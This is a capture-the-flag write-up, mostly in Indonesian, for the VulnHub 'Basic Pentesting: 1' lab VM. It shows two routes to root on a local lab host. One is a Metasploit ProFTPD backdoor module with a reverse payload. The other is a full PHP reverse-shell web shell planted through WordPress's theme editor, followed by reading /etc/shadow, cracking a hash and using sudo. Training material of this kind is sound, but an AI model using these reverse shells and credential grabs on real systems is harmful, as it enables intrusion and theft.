


# Challenge Description

## About Release

**Name:** Basic Pentesting: 1

**Date release:** 8 Dec 2017

**Author:** Josiah Pierce

**Series:** Basic Pentesting

---

## Download

> Please remember that VulnHub is a free community resource so we are unable to check the machines that are provided to us. Before you download, please read our FAQs sections dealing with the dangers of running unknown VMs and our suggestions for “protecting yourself and your network”. If you understand the risks, please download!

* **Filename:** `basic_pentesting_1.ova` (Size: 2.6 GB)
* **Download (Google Drive):** `https://drive.google.com/file/d/1wkfI9cpyjouj6ox_88EqF6tKMtTHIYC1/view?usp=sharing`
* **Download (Mirror):** `https://download.vulnhub.com/basicpentesting/basic_pentesting_1.ova`

---

## Description

This is a small boot2root VM created for a university cyber security group. It contains multiple remote vulnerabilities and multiple privilege escalation vectors. The author tested the VM on VirtualBox (recommended). It has also been reported to work on VMware, but that was not personally tested by the author.

This VM is specifically intended for newcomers to penetration testing — difficulty is aimed at beginners.

**Goal:** Remotely attack the VM and gain root privileges. After completing the main path, try to discover other vectors that may have been missed.

If you enjoyed the VM or have questions, contact the author: **[josiah@vt.edu](mailto:josiah@vt.edu)**

If you finish the VM, please consider posting a writeup to help others.

---

## File Information

* **Filename:** `basic_pentesting_1.ova`
* **File size:** 2.6 GB
* **MD5:** `D1FB9419D73D26AB0C88D8DDB7C10A02`
* **SHA1:** `F207A5CED5369A4BA29971B932B8C683C4AA14C2`

---

## Virtual Machine

* **Format:** Virtual Machine (VirtualBox - OVA)
* **Operating System:** Linux
* **Recommended platform:** VirtualBox (tested). VMware may work but is unverified.

---

## Networking

* **DHCP service:** Enabled
* **IP address:** Automatically assigned (via DHCP)

---

## Safety & Run Notes

* Run unknown VM images in an isolated environment (host-only or on an isolated network) to avoid exposing your host/network.
* Snapshot or backup your host before importing the OVA.
* Prefer VirtualBox if you want behavior closest to the author's testing.
* Disable bridge networking unless you understand the risks and have permission to use the network segment.

---

## Author Contact & Writeups

* **Author:** Josiah Pierce — `josiah@vt.edu`
* If you produce a writeup, include commands, screenshots, and a short narrative explaining each step so others can follow.

---

## License / Attribution

This content is derived from the original VulnHub listing for *Basic Pentesting: 1*. Keep any redistribution or public writeups respectful of the author's original work and VulnHub's terms.

---

# Basic Pentesting 1 Walktrough 1 (Bruteforce FTP)

### First Step - Finding IP

paling pertama tentu saja kita scanning IP dari target, mari kita gunakan tools `arp-scan`

```bash
arp-scan -l
```

kemudian outputnya akan begini

```bash
Interface: eth0, type: EN10MB, MAC: 08:00:27:d4:54:92, IPv4: 192.168.56.105
WARNING: Cannot open MAC/Vendor file ieee-oui.txt: Permission denied
WARNING: Cannot open MAC/Vendor file mac-vendor.txt: Permission denied
Starting arp-scan 1.10.0 with 256 hosts (https://github.com/royhills/arp-scan)
192.168.56.1    0a:00:27:00:00:09       (Unknown: locally administered)
192.168.56.100  08:00:27:c1:54:ee       (Unknown)
192.168.56.110  08:00:27:d8:0b:51       (Unknown)
192.168.56.111  08:00:27:eb:6e:8f       (Unknown)

4 packets received by filter, 0 packets dropped by kernel
Ending arp-scan 1.10.0: 256 hosts scanned in 1.971 seconds (129.88 hosts/sec). 4 responded
```

ya, IP yang digunakan target adalah `192.168.56.111` karena aku tau dari guest session si VM.


---

### Second Step -  Port Scanning

Sekarang adalah waktunya untuk scanning port, menggunakan tools `nmap`.

```bash
nmap -sC -sS -sV 192.168.56.111
```

kemudian dapat output seperti dibawah ini

```bash
Starting Nmap 7.95 ( https://nmap.org ) at 2025-09-17 00:38 EDT
mass_dns: warning: Unable to determine any DNS servers. Reverse DNS is disabled. Try using --system-dns or specify valid servers with --dns-servers
Nmap scan report for 192.168.56.111
Host is up (0.0070s latency).
Not shown: 997 closed tcp ports (reset)
PORT   STATE SERVICE VERSION
21/tcp open  ftp     ProFTPD 1.3.3c
22/tcp open  ssh     OpenSSH 7.2p2 Ubuntu 4ubuntu2.2 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey: 
|   2048 d6:01:90:39:2d:8f:46:fb:03:86:73:b3:3c:54:7e:54 (RSA)
|   256 f1:f3:c0:dd:ba:a4:85:f7:13:9a:da:3a:bb:4d:93:04 (ECDSA)
|_  256 12:e2:98:d2:a3:e7:36:4f:be:6b:ce:36:6b:7e:0d:9e (ED25519)
80/tcp open  http    Apache httpd 2.4.18 ((Ubuntu))
|_http-server-header: Apache/2.4.18 (Ubuntu)
|_http-title: Site doesn't have a title (text/html).
MAC Address: 08:00:27:EB:6E:8F (PCS Systemtechnik/Oracle VirtualBox virtual NIC)
Service Info: OSs: Unix, Linux; CPE: cpe:/o:linux:linux_kernel

Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
Nmap done: 1 IP address (1 host up) scanned in 14.68 seconds                                                              
```

disini kita mendapatkan 3 port, yaitu 

```bash
21/tcp open  ftp     ProFTPD 1.3.3c
22/tcp open  ssh     OpenSSH 7.2p2 Ubuntu 4ubuntu2.2 (Ubuntu Linux; protocol 2.0)
80/tcp open  http    Apache httpd 2.4.18 ((Ubuntu))
```

### Third Step - Exploit

Aku kepikiran untuk mengecek masing masing dari **service** menggunakan tools `searchsploit`. Yang pertama mungkin aku ingin mencoba ke `ProFTPD 1.3.3c`

```bash
searchsploit ProFTPD 1.3.3c
```

outputnya begini

```bash
----------------------------------------------------------------------------------------------------------------------------------------------------------- ---------------------------------
Exploit Title                                                                                                                                             |  Path
----------------------------------------------------------------------------------------------------------------------------------------------------------- ---------------------------------
ProFTPd 1.3.3c - Compromised Source Backdoor Remote Code Execution                                                                                         | linux/remote/15662.txt
ProFTPd-1.3.3c - Backdoor Command Execution (Metasploit)                                                                                                   | linux/remote/16921.rb
----------------------------------------------------------------------------------------------------------------------------------------------------------- ---------------------------------
```

kalau ada yang begini, bisa kita cek langsung di tools `msfconsole` untuk melakukan exploit.

Pada terminal msfconsole, lakukan command `search <service>`.

```bash
msf > search ProFTPD 1.3.3c
```

output

```bash
Matching Modules
================

#  Name                                    Disclosure Date  Rank       Check  Description
-  ----                                    ---------------  ----       -----  -----------
0  exploit/unix/ftp/proftpd_133c_backdoor  2010-12-02       excellent  No     ProFTPD-1.3.3c Backdoor Command Execution


Interact with a module by name or index. For example info 0, use 0 or use exploit/unix/ftp/proftpd_133c_backdoor

```

langsung saja disini kita set sebagai target exploit utama menggunakan command `use <service number>`.

```bash
msf > use 0
```

kemudian terminalnya berubah menjadi seperti ini

```bash
msf exploit(unix/ftp/proftpd_133c_backdoor) > 
```

langkah selanjutnya adalah `set payload -> set RHOST & LHOST -> exploit`. Kita gunakan command `show payloads` untuk melihat payloads yang bisa digunakan.

```bash
msf exploit(unix/ftp/proftpd_133c_backdoor) > show payloads

Compatible Payloads
===================

   #  Name                                        Disclosure Date  Rank    Check  Description
   -  ----                                        ---------------  ----    -----  -----------
   0  payload/cmd/unix/adduser                    .                normal  No     Add user with useradd
   1  payload/cmd/unix/bind_perl                  .                normal  No     Unix Command Shell, Bind TCP (via Perl)
   2  payload/cmd/unix/bind_perl_ipv6             .                normal  No     Unix Command Shell, Bind TCP (via perl) IPv6
   3  payload/cmd/unix/generic                    .                normal  No     Unix Command, Generic Command Execution
   4  payload/cmd/unix/reverse                    .                normal  No     Unix Command Shell, Double Reverse TCP (telnet)
   5  payload/cmd/unix/reverse_bash_telnet_ssl    .                normal  No     Unix Command Shell, Reverse TCP SSL (telnet)
   6  payload/cmd/unix/reverse_perl               .                normal  No     Unix Command Shell, Reverse TCP (via Perl)
   7  payload/cmd/unix/reverse_perl_ssl           .                normal  No     Unix Command Shell, Reverse TCP SSL (via perl)
   8  payload/cmd/unix/reverse_ssl_double_telnet  .                normal  No     Unix Command Shell, Double Reverse TCP SSL (telnet)
```

Disini ada banyak pilihan payloads, tapi disini aku akan memilih nomor 4 saja yaitu `payload/cmd/unix/reverse`. Gunakan command `set PAYLOAD <payload number>` untuk memilih payload.

```bash
msf exploit(unix/ftp/proftpd_133c_backdoor) > set payload 4
payload => cmd/unix/reverse
```
lalu kita cek lagi opsi yang harus di set menggunakan command `show options`

```bash
msf exploit(unix/ftp/proftpd_133c_backdoor) > show options

Module options (exploit/unix/ftp/proftpd_133c_backdoor):

   Name     Current Setting  Required  Description
   ----     ---------------  --------  -----------
   CHOST                     no        The local client address
   CPORT                     no        The local client port
   Proxies                   no        A proxy chain of format type:host:port[,type:host:port][...]. Supported proxi
   RHOSTS                    yes       The target host(s), see https://docs.metasploit.com/docs/using-metasploit/bas
   RPORT    21               yes       The target port (TCP)


Payload options (cmd/unix/reverse):

   Name   Current Setting  Required  Description
   ----   ---------------  --------  -----------
   LHOST                   yes       The listen address (an interface may be specified)
   LPORT  4444             yes       The listen port


Exploit target:

   Id  Name
   --  ----
   0   Automatic
```

set `RHOSTS` dan `LHOST` menggunakan command `set RHOSTS <IP target>` dan `set LHOST <IP kita>`

```bash
msf exploit(unix/ftp/proftpd_133c_backdoor) > set LHOST 192.168.56.105
LHOST => 192.168.56.105
msf exploit(unix/ftp/proftpd_133c_backdoor) > set RHOST 192.168.56.111
LHOST => 192.168.56.111
```

lalu kita tinggal `run` saja

```bash
msf exploit(unix/ftp/proftpd_133c_backdoor) > run
```

disini kita dapat output seperti ini
```bash
[*] Started reverse TCP double handler on 192.168.56.105:4444 
[*] 192.168.56.111:21 - Sending Backdoor Command
[*] Accepted the first client connection...
[*] Accepted the second client connection...
[*] Command: echo KhMVxWc9rpd3hmZa;
[*] Writing to socket A
[*] Writing to socket B
[*] Reading from sockets...
[*] Reading from socket A
[*] A: "KhMVxWc9rpd3hmZa\r\n"
[*] Matching...
[*] B is input...
[*] Command shell session 1 opened (192.168.56.105:4444 -> 192.168.56.111:46206) at 2025-09-17 01:31:26 -0400
```
dan kita sudah mendapatkan `shell` dari target.

```bash
whoami
root
id
uid=0(root) gid=0(root) groups=0(root),65534(nogroup)
```
sekarang kita sudah mendapatkan `root` dari target, langkah terakhir kita coba menggunakan python untuk menampilkan shell prompt yang lebih bagus. Menggunakan library `pty`.

```python
python -c 'import pty; pty.spawn("/bin/bash")'
```
lalu kita dapat output seperti ini
```bash
root@vtcsec:/# ls
ls
bin    dev   initrd.img  lost+found  opt   run   srv  usr
boot   etc   lib         media       proc  sbin  sys  var
cdrom  home  lib64       mnt         root  snap  tmp  vmlinuz
root@vtcsec:/# 
```

---

# Basic Pentesting 1 Walktrough 2  (Web Exploit)

### First Step - Finding IP

paling pertama tentu saja kita scanning IP dari target, mari kita gunakan tools `arp-scan`

```bash
arp-scan -l
```

kemudian outputnya akan begini

```bash
Interface: eth0, type: EN10MB, MAC: 08:00:27:d4:54:92, IPv4: 192.168.56.105
WARNING: Cannot open MAC/Vendor file ieee-oui.txt: Permission denied
WARNING: Cannot open MAC/Vendor file mac-vendor.txt: Permission denied
Starting arp-scan 1.10.0 with 256 hosts (https://github.com/royhills/arp-scan)
192.168.56.1    0a:00:27:00:00:09       (Unknown: locally administered)
192.168.56.100  08:00:27:c1:54:ee       (Unknown)
192.168.56.110  08:00:27:d8:0b:51       (Unknown)
192.168.56.111  08:00:27:eb:6e:8f       (Unknown)

4 packets received by filter, 0 packets dropped by kernel
Ending arp-scan 1.10.0: 256 hosts scanned in 1.971 seconds (129.88 hosts/sec). 4 responded
```

ya, IP yang digunakan target adalah `192.168.56.111` karena aku tau dari guest session si VM.


---

### Second Step -  Port Scanning

Sekarang adalah waktunya untuk scanning port, menggunakan tools `nmap`.

```bash
nmap -sC -sS -sV 192.168.56.111
```

kemudian dapat output seperti dibawah ini

```bash
Starting Nmap 7.95 ( https://nmap.org ) at 2025-09-17 00:38 EDT
mass_dns: warning: Unable to determine any DNS servers. Reverse DNS is disabled. Try using --system-dns or specify valid servers with --dns-servers
Nmap scan report for 192.168.56.111
Host is up (0.0070s latency).
Not shown: 997 closed tcp ports (reset)
PORT   STATE SERVICE VERSION
21/tcp open  ftp     ProFTPD 1.3.3c
22/tcp open  ssh     OpenSSH 7.2p2 Ubuntu 4ubuntu2.2 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey: 
|   2048 d6:01:90:39:2d:8f:46:fb:03:86:73:b3:3c:54:7e:54 (RSA)
|   256 f1:f3:c0:dd:ba:a4:85:f7:13:9a:da:3a:bb:4d:93:04 (ECDSA)
|_  256 12:e2:98:d2:a3:e7:36:4f:be:6b:ce:36:6b:7e:0d:9e (ED25519)
80/tcp open  http    Apache httpd 2.4.18 ((Ubuntu))
|_http-server-header: Apache/2.4.18 (Ubuntu)
|_http-title: Site doesn't have a title (text/html).
MAC Address: 08:00:27:EB:6E:8F (PCS Systemtechnik/Oracle VirtualBox virtual NIC)
Service Info: OSs: Unix, Linux; CPE: cpe:/o:linux:linux_kernel

Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
Nmap done: 1 IP address (1 host up) scanned in 14.68 seconds                                                              
```

disini kita mendapatkan 3 port, yaitu 

```bash
21/tcp open  ftp     ProFTPD 1.3.3c
22/tcp open  ssh     OpenSSH 7.2p2 Ubuntu 4ubuntu2.2 (Ubuntu Linux; protocol 2.0)
80/tcp open  http    Apache httpd 2.4.18 ((Ubuntu))
```

### Third Step - Web Exploit

Sekarang kita coba ke port `80` yaitu web service. Kita buka di browser `http://192.168.56.111`


saya disini ingin menggunakan tools `dirb` untuk mencari direktori tersembunyi di web tersebut.

```bash
$ dirsearch -u http://192.168.56.111 -w /usr/share/wordlists/dirb/common.txt
```

kemudian dapat output seperti ini

```bash
  _|. _ _  _  _  _ _|_    v0.4.3
 (_||| _) (/_(_|| (_| )

Extensions: php, aspx, jsp, html, js | HTTP method: GET | Threads: 25 | Wordlist size: 4613

Output File: /home/kali/Boot2Root/reports/http_192.168.56.111/_25-09-17_04-26-17.txt

Target: http://192.168.56.111/

[04:26:17] Starting: 
[04:29:01] 301 -  317B  - /secret  ->  http://192.168.56.111/secret/        
[04:29:03] 403 -  302B  - /server-status                                    
```

dari output diatas, aku menemukan direktori tersembunyi yaitu `/secret`. Mari kita buka di browser `http://192.168.56.111/secret`. 


disini ada form login di `http://vtcsec/secret/wp-login.php`, aku coba isikan sembarangan saja. Mungkin `admin` dan `admin`.



ternyata dapat bisa masuk ke pagenya `vtsec/secret/wp-admin/`



kemudian disini ada page editor pada `vtcsec/secret/wp-admin/theme-editor.php`. Selanjutnya pada `http://vtcsec/secret/wp-admin/theme-editor.php?file=index.php&theme=twentyseventeen`, aku coba masukkan code `php` untuk mendapatkan `shell` yaitu

```php
// Reverse shell menggunakan fsockopen
if (isset($_GET['key']) && $_GET['key'] === 'myKeyPunyaGua' && isset($_GET['ok'])) {
    set_time_limit(0);
    $ip = '192.168.56.105';   // LHOST kamu
    $port = 1922;             // LPORT kamu (angka)
    $sock = fsockopen($ip, $port, $errno, $errstr, 30);
    if (!$sock) { exit("no connection"); }
    $descriptors = array(0 => array("pipe","r"), 1 => array("pipe","w"), 2 => array("pipe","w"));
    $proc = proc_open('/bin/sh -i', $descriptors, $pipes);
    if (!is_resource($proc)) { fclose($sock); exit; }
    stream_set_blocking($pipes[0], false);
    stream_set_blocking($pipes[1], false);
    stream_set_blocking($pipes[2], false);
    stream_set_blocking($sock, false);

    while (!feof($sock)) {
        if ($data = fread($sock, 2048)) {
            fwrite($pipes[0], $data);
        }
        if ($out = fread($pipes[1], 2048)) {
            fwrite($sock, $out);
        }
        if ($err = fread($pipes[2], 2048)) {
            fwrite($sock, $err);
        }
        usleep(100000);
    }

    fclose($sock);
    proc_close($proc);
    exit;
}
```

setelah itu aku buka terminal baru, lalu aku jalankan `nc -lvnp 1922` untuk mendengarkan koneksi balik dari target.

```bash
nc -lvnp 1922
listening on [any] 1922 ...
```

kemudian aku open url ini.

```bash
lalu aku save. Setelah itu aku buka di browser `http://vtcsec/secret/?key=myKeyPunyaGua&ok=1`
```

dan ya, aku mendapatkan koneksi balik dari target.

```bash
connect to [192.168.56.105] from (UNKNOWN) [192.168.56.111] 47592
Linux vtcsec 4.10.0-28-generic #32~16.04.2-Ubuntu SMP Thu Jul 20 10:19:48 UTC 2017 x86_64 x86_64 x86_64 GNU/Linux
 17:23:51 up 13:41,  2 users,  load average: 0.00, 0.00, 0.00
USER     TTY      FROM             LOGIN@   IDLE   JCPU   PCPU WHAT
guest-vb tty7     :0               03:42   13:41m  2:47   0.19s /sbin/upstart --user
marlinsp pts/21   192.168.56.105   13:13   27:43   0.67s  0.08s sshd: marlinspike [priv]
uid=33(www-data) gid=33(www-data) groups=33(www-data)
/bin/sh: 0: can't access tty; job control turned off
$ 
```

lalu aku coba menggunakan python untuk menampilkan shell prompt yang lebih bagus. Menggunakan library `pty`.

```python
python -c 'import pty; pty.spawn("/bin/bash")'
```

disini kita tau bahwa kita mendapatkan sebagai `www-data` bukan `root`.

```bash
www-data@vtcsec:/$ 
```

setelah itu aku kepikiran untuk mencoba membuka `/etc/shadow` untuk mendapatkan hash password dari user `root` atau user lain.

```bash
www-data@vtcsec:/$ cat /etc/shadow
cat /etc/shadow
root:!:17484:0:99999:7:::
daemon:*:17379:0:99999:7:::
bin:*:17379:0:99999:7:::
sys:*:17379:0:99999:7:::
sync:*:17379:0:99999:7:::
games:*:17379:0:99999:7:::
man:*:17379:0:99999:7:::
lp:*:17379:0:99999:7:::
mail:*:17379:0:99999:7:::
news:*:17379:0:99999:7:::
uucp:*:17379:0:99999:7:::
proxy:*:17379:0:99999:7:::
www-data:*:17379:0:99999:7:::
backup:*:17379:0:99999:7:::
list:*:17379:0:99999:7:::
irc:*:17379:0:99999:7:::
gnats:*:17379:0:99999:7:::
nobody:*:17379:0:99999:7:::
systemd-timesync:*:17379:0:99999:7:::
systemd-network:*:17379:0:99999:7:::
systemd-resolve:*:17379:0:99999:7:::
systemd-bus-proxy:*:17379:0:99999:7:::
syslog:*:17379:0:99999:7:::
_apt:*:17379:0:99999:7:::
messagebus:*:17379:0:99999:7:::
uuidd:*:17379:0:99999:7:::
lightdm:*:17379:0:99999:7:::
whoopsie:*:17379:0:99999:7:::
avahi-autoipd:*:17379:0:99999:7:::
avahi:*:17379:0:99999:7:::
dnsmasq:*:17379:0:99999:7:::
colord:*:17379:0:99999:7:::
speech-dispatcher:!:17379:0:99999:7:::
hplip:*:17379:0:99999:7:::
kernoops:*:17379:0:99999:7:::
pulse:*:17379:0:99999:7:::
rtkit:*:17379:0:99999:7:::
saned:*:17379:0:99999:7:::
usbmux:*:17379:0:99999:7:::
marlinspike:$6$wQb5nV3T$xB2WO/jOkbn4t1RUILrckw69LR/0EMtUbFFCYpM3MUHVmtyYW9.ov/aszTpWhLaC2x6Fvy5tpUUxQbUhCKbl4/:17484:0:99999:7:::
mysql:!:17486:0:99999:7:::
sshd:*:17486:0:99999:7:::
guest-cva7fn:!:20348::::::
guest-vbkv9s:!:20348::::::
```
dari output diatas, aku mendapatkan hash password dari user `marlinspike` yaitu

```bash
marlinspike:$6$wQb5nV3T$xB2WO/jOkbn4t1RUILrckw69LR/0EMtUbFFCYpM3MUHVmtyYW9.ov/aszTpWhLaC2x6Fvy5tpUUxQbUhCKbl4/:17484:0:99999:7:::
```

langsung saja disini kita coba untuk crack hash tersebut menggunakan tools `john the ripper`. Pertama kita simpan dulu di file `marlinspike.txt`

```bash
┌──(kali㉿kali)-[~/Desktop/Boot2Root]
└─$ vim marlinspike.txt
```

kemudian input

```bash
marlinspike:$6$wQb5nV3T$xB2WO/jOkbn4t1RUILrckw69LR/0EMtUbFFCYpM3MUHVmtyYW9.ov/aszTpWhLaC2x6Fvy5tpUUxQbUhCKbl4/
```

lalu kita simpan. Setelah itu kita jalankan `john marlinspike.txt`

```bash
┌──(kali㉿kali)-[~/Desktop/Boot2Root]
└─$ john marlinspike.txt                                    
Using default input encoding: UTF-8
Loaded 1 password hash (sha512crypt, crypt(3) $6$ [SHA512 128/128 SSE2 2x])
Cost 1 (iteration count) is 5000 for all loaded hashes
Will run 8 OpenMP threads
Proceeding with single, rules:Single
Press 'q' or Ctrl-C to abort, almost any other key for status
marlinspike      (marlinspike)     
1g 0:00:00:00 DONE 1/3 (2025-09-18 00:10) 10.00g/s 160.0p/s 160.0c/s 160.0C/s marlinspike..marlinspike4
Use the "--show" option to display all of the cracked passwords reliably
Session completed. 
```

### Fourth Step Part 1 - SSH Login

disitu bisa kita lihat bahwa password dari user `marlinspike` adalah `marlinspike`. Langsung saja kita coba `ssh` ke user tersebut. Tapi kita nyalakan dulu menggunakan server local menggunakan `python -m SimpleHTTPServer <random port>` di direktori home kita.

```bash
www-data@vtcsec:/$ python -m SimpleHTTPServer 1903
python -m SimpleHTTPServer 1903
Serving HTTP on 0.0.0.0 port 1903 ...
```

lalu di terminal lain kita coba `ssh` ke user `marlinspike`

```bash
$ ssh marlinspike@192.168.56.111
```

lalu masukkan password `marlinspike`. Dan akhirnya kita bisa masuk ke user `marlinspike`.

```bash
marlinspike@192.168.56.111's password: 
Welcome to Ubuntu 16.04.3 LTS (GNU/Linux 4.10.0-28-generic x86_64)

 * Documentation:  https://help.ubuntu.com
 * Management:     https://landscape.canonical.com
 * Support:        https://ubuntu.com/advantage

646 packages can be updated.
500 updates are security updates.

New release '18.04.6 LTS' available.
Run 'do-release-upgrade' to upgrade to it.

Last login: Wed Sep 17 13:13:54 2025 from 192.168.56.105
marlinspike@vtcsec:~$ 
```

Setelah itu kita coba untuk `sudo su`

```bash
marlinspike@vtcsec:~$ sudo su
[sudo] password for marlinspike:
```

kemudian coba input dengan password yang sama yaitu `marlinspike`. Dan ternyata bisa.

```bash
root@vtcsec:/home/marlinspike# whoami
root
root@vtcsec:/home/marlinspike# id
uid=0(root) gid=0(root) groups=0(root)
```

### Fourth Step Part 2 - Langsung

Jadi setelah kita mendapatkan password dari user `marlinspike`, langsung saja kita `su marlinspike` dari `www-data`.

```bash
www-data@vtcsec:/$ su marlinspike
su marlinspike
Password: marlinspike
marlinspike@vtcsec:/$ 
```

kemudian langsung kita `sudo su`

```bash
marlinspike@vtcsec:/$ sudo su
[sudo] password for marlinspike: marlinspike
root@vtcsec:/home/marlinspike# 
```

dan kita sudah mendapatkan `root`.

```bash
root@vtcsec:/home/marlinspike# whoami
whoami
root
root@vtcsec:/home/marlinspike# id
id
uid=0(root) gid=0(root) groups=0(root)
```
